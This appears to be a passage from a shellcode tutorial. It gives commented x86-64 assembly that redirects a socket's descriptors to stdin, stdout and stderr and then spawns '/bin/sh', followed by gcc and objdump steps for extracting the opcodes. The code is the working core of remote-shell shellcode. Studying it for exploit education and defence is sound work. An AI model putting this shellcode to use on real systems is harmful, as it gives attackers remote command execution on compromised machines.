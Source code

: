```asm
    # else we dup2 stdin, stdout, stderr

    # The following is equivalent to:
    # newsockfd = %ebp
    # dup2(newsockfd, 0); // bind stdin
    # dup2(newsockfd, 1); // bind stdout
    # dup2(newsockfd, 2); // bind stderr

    mov    %ebp, %edi       # the fd to dup to (arg 1)
    xor    %rax, %rax       # start with fd 0 (stdin)
    mov    %eax, %esi       # put it into %esi (arg 2)
    mov    $0x21, %al       # setup the syscall number
    syscall  # dup2 stdin

    inc    %al              # %al is zero (from the syscall return)
                            # so we increment
    mov    %eax, %esi       # to make it 1 (stdout) and do it all again
    mov    $0x21, %al
    syscall  # dup2 stdout

    inc    %al              # one more time for stderr.
    mov    %eax, %esi
    mov    $0x21, %al
    syscall  # dup2 stderr

    # below we are basically doing:
    # cmd = "/bin/sh";
    # args = {cmd, 0};
    # execve(cmd, args, 0)
    xor    %rdx, %rdx       # 0 is the third arg to execve
    # store the string '/bin/sh' into %rbx
    movabs $0x68732f6e69622fff, %rbx
    shr    $0x8, %rbx       # add a null byte to terminate the string
    push   %rbx             # put it on the stack
    mov    %rsp, %rdi       # load a pointer to the string into %rdi
                            # (arg 1 of execve)
    xor    %rax, %rax       # make a null
    push   %rax             # put it on the stack
    push   %rdi             # push the pointer to the string
    mov    %rsp, %rsi       # put the args pointer into %rsi (arg 2)
    mov    $0x3b, %al
    syscall
```

To convert this into opcodes, we again use the compiler:

```
$ gcc -c asm.s
```

then we do:

```
$ objdump -d asm.o > asm.dump.s
```

